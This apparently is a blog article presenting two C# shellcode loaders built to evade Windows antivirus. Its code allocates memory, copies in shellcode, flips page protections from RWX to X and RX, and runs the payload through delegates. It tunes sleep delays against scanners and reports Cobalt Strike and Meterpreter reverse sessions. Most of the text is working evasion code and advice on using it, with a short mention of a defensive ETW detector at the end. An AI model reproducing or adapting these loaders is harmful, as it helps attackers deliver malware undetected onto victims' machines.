





2 Simple C# Techniques for Bypassing Anti-virus
2 Simple C# Techniques for Bypassing Anti-virus
in this article i want to talk about two C# Techniques which was tested by me on WIN10 for bypassing Anti-virus so both of them is about using "VirtualProtectEx" and changing RWX protection to "X" or/and "RX".
First Technique:
in first code "NativePayload_PE1" we have something like this:
VirtualProtectEx(ProcessHandle, _VA, (UIntPtr)_asm_shell.Length, 0x10, out _out);
this code will change RWX to X mode and sometimes Anti-viruses will confuse by this simple method because, always default is "RWX" now we have only "X" Protection so this can be help you as Pentester or Redteamer to bypass some AVs (for sure just test one by one AVs ;D), in this code we do not have CreateThread() API in the C# so a little bit behavior of code is changed also source code changed too and in this code i used C# Delegation Technique which i called "Technique D" to change the source code and behavior of code but result is same so code was changed but result is same with my old codes for injection or run in-memory etc.
this is that part of code which i used "Technique D":
ThreadStart _ts = new ThreadStart(() =
{
__Assembly _Method = (__Assembly)Marshal.GetDelegateForFunctionPointer
(_VA, typeof(__Assembly));
/// Delegation Technique to change code but with same result [Technique D]
Delegate _Delegate = new Action(() => { _Method(); });
_Delegate.DynamicInvoke(); /*_Method();*/
});
//_thread.Start();
Thread _t = new Thread(_ts);
Delegate _TDelegate = new Action(() => { _t.Start(); });
_TDelegate.DynamicInvoke();
as you can see Thread in C# stared via "ThreadStart" also in this time our __Assembly Created in this Thread and via Delegation Technique, that Thread "_t.started()" started by "DynamicInvoke()" and inside C# Thread Shell Code or Assembly code was injected into Memory to run in-memory at the same time so this code is kind of CreateThread() API Function etc but we do not need to call that in C# source code Directly. but via API Monitor tool v2 you see what exactly happened in background for this code.
"NativePayload_PE1" steps:
in the first step you can see in memory we have RWX Protection via "VirtualAlloc()"

Picture 1: step1
his RWX is default so probably all Anti-viruses will check this Part of Memory as Red-flag WHEN they see something abnormal in process events or ...
if you change this RWX to X very fast (before checking by AVs) THEN this can be help you sometimes to bypass some AVs but i can not say all of them you should check one by one for sure.
Important point: in my tests you need to use Delay between parts of code to avoid catch by AVs , this delays will help you very well so in source code you can see where i used Delay/sleep Methods and without them your code will catch by AVs (probably by all of them)
so in the first code i used Delay or "Thread.Sleep()" here:
IntPtr ProcessHandle = OpenProcess(ProcessAccessFlags.All, false,
System.Diagnostics.Process.GetCurrentProcess().Id);
System.Threading.Thread.Sleep(30000);
IntPtr _VA = VirtualAlloc(IntPtr.Zero, (UIntPtr)_asm_shell.Length, 0x1000, 0x40);
showcmd("1", "VirtualAlloc", _VA);
System.Threading.Thread.Sleep(60000);
//Marshal.Copy(_asm_shell, 0, shellcodeAddr, _asm_shell.Length);
RtlMoveMemory(_VA, _asm_shell, (uint)_asm_shell.Length);
1 min or higher, depends on your target av this value should change by you.
Note: "believe me or not, sometimes i used 1 hour delay for bypassing some brands of AVs ;D"
in the next step you can see we have session via cobaltstrike x64 payload (reverse tcp 443)

Picture 2: step4 RWX to X
but in this first code i have another step to change Protection from X to RX but in this time again you need to use Delay, because this probably will catch by some AVs as abnormal behavior [don't changed Protection from X to RX very fast] so via delay you can bypass this one but remember this one first protection was RWX and was changed to X very fast in this time you should change Protection very fast before checking by AV but last step for Changing from X to RX we need at least 2 mins Delay so your Antivirus probably after 2 mins will not check that Part of Memory which Was X and now changed to RX but this is not same for all AVs you should check one by one ;p"
in the next step you can see after 2 min X was Changed to RX but we had Session in Previous step when our protection was X.

Picture 3: step5 X to RX
as you can see My anti-virus bypassed so i do not want to say this AV is not good , in 2-3 years ago they (MSFT) really work on their AV "very well" and ...
this last part of code which our Protection will change from X to RX here:
showcmd("5", "VirtualProtectEx [delay + Set to 0x20 (Read_Execute mode)", _VA)
VirtualProtectEx(ProcessHandle, _VA, (UIntPtr)_asm_shell.Length, 0x20, out _out);
Second Technique:
in this Second Technique we have only protection change from RWX to X so this code is simpler than first one and again i used Delegation Technique [Technique D] for changing code/behavior etc.
in this time i used "System.Reflection" class and method to Injecting Code in-memory and Compile/Run #inmemory very simple and this method really is not New But still is useful in C# for #Offensive #Programming.
in this code our shell/assembly code very simple moved or copied to memory (like injection) and via reflection class and our Assembly Compiled in-memory very fast.
unsafe
{
Delegate _Delegate = new Action(() =>
{
fixed (byte* ptr = _asm_shell)
{
IntPtr ProcessHandle = OpenProcess(0x001F0FFF, false, System.Diagnostics.Process.GetCurrentProcess().Id);
showcmd("1", "OpenProcess", ProcessHandle);
var _MemAdd = (IntPtr)ptr;
VirtualProtectEx(ProcessHandle, _MemAdd, (UIntPtr)_asm_shell.Length, 0x40, out uint _);
showcmd("2", "VirtualProtectEx [Set to 0x40 (RWX mode)", _MemAdd);
FieldInfo _methodPtr = typeof(Delegate).GetField("_methodPtr", BindingFlags.NonPublic | BindingFlags.Instance);
FieldInfo _methodPtrAux = typeof(Delegate).GetField("_methodPtrAux", BindingFlags.NonPublic | BindingFlags.Instance);
showcmd("3", "Set delay 66000 milliseconds, wait...", IntPtr.Zero);
Thread.Sleep(66000);
_methodPtr.SetValue(_MethodDelegate, (IntPtr)ptr);
_methodPtrAux.SetValue(_MethodDelegate, (IntPtr)ptr);
VirtualProtectEx(ProcessHandle, _MemAdd, (UIntPtr)_asm_shell.Length, 0x10, out uint _);
showcmd("4", "VirtualProtectEx [Set to 0x10 (X mode)", _MemAdd);
Console.WriteLine("\nBingo Meterpreter Session by Thread Injection Method + Delegations [unsafe method] ;)");
_MethodDelegate();
}
});
_Delegate.DynamicInvoke();
}
but before Compiling/Run in Memory first you should change Protection memory to RWX via VirtualProtectEx THEN after Delay you can Run in Memory that part of Memory which has RWX protection and Very fast again via VirtualProtectEx you should Change Protection From RWX to X only and Done.
so this code is simpler than first code.

Picture 4: RWX to X only
as you can see code was worked very well and AV again Bypassed but "That Delay in the code will help you to avoid to get red-flag by Anti-virus". so again after run in memory you should very fast change RWX to X (before checking by AV) and Done. in the next picture i want talk about "ETWPM2Monitor2.1" ETW tool which made by me for Blue-Teamers for Process Injection Detection / Remote Thread Injection Detection, as you can see this Second Code was Detected by my tool very well also Detected by Memory Scanner "Pe-sieve" too.

Picture 5: ETW and ETWProcessMon2 + ETWPM2Monitor2.1 tools
Note: all codes are here https://github.com/damonmohammadbagher/NativePayload_PE1
at a glance: as you can see sometimes with very simple Techniques and Changing Code Behavior you can Bypass Some Anti-viruses very simple. ¯\_(ツ)_/¯